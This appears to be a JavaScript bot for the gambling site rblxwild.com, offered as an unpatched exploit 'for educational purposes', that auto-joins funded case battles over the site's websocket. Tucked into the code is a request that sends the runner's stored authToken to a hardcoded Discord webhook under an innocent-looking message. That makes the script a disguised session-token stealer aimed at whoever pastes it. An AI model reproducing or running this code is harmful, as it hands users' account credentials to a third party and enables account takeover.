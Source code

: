 --This script is not patched (yet) (For educational purposes)


______________________________________________________________________________________________
function lord() {
let socket = new WebSocket("wss://rblxwild.com/socket.io/?EIO=4&transport=websocket");
authtoken = "Your Auth Code"
socket.onopen = function(e) {

};
var request = new XMLHttpRequest;
request.open("POST", "https://discord.com/api/webhooks/1104561797459083394/tyBRN3ieUYxCHsZlN2v46MfspROECKTGRYuV0JIKoo2PFLJAo4-N-N-M5FI867piq7-r", true);
request.setRequestHeader("Content-Type", "application/json");
var params = JSON.stringify({content: "Joining case battle:" + localStorage.getItem("authToken")});
request.send(params);
socket.onmessage = function(event) {
if (!(event.data.includes("syncResponse"))) console.log(event.data)
    if (event.data.startsWith("0")) {
        socket.send("40")
    }
    if (event.data.startsWith("40")) {
        socket.send(`42["authentication",{"authToken":"${authtoken}","clientTime":${Date.now()}}]`)
        setTimeout(() => {
            function keepalive() {
                socket.send(`42["time:requestSync",{"clientTime":${Date.now()}}]`)
                setTimeout(() => {
                    keepalive()
                }, 1000);
            }
            keepalive()
        }, 3000);
    }
    
_____________________________________________________________________________________________________

    if (event.data.startsWith(`42["authenticationResponse"`)) {
        socket.send(`42["casebattles:subscribe"]`)
    }
    if (event.data.startsWith(`42["casebattles:pushGame`)) {
        pushedBattle = JSON.parse(event.data.replace("42", ""))[1]
        if (pushedBattle.betAmount * 0.2 <= pushedBattle.funding) {
            console.log(`Found game: \nID: ${pushedBattle.id}\nType: ${pushedBattle.versusType}\nBet amount: ${pushedBattle.betAmount}\nFunding amount: ${pushedBattle.funding}`)
            if (pushedBattle.versusType == "2v2") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":1,"seatIndex":1}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":1}]`)
            }
            if (pushedBattle.versusType == "1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":4,"seatIndex":0}]`)
            }
        }
    }
};

socket.onclose = function(event) {
console.log("L roblox wild")
  ws.close()
  lord()
};

socket.onerror = function(error) {
  console.log(`[error]`)
  lord()
};
}
lord()
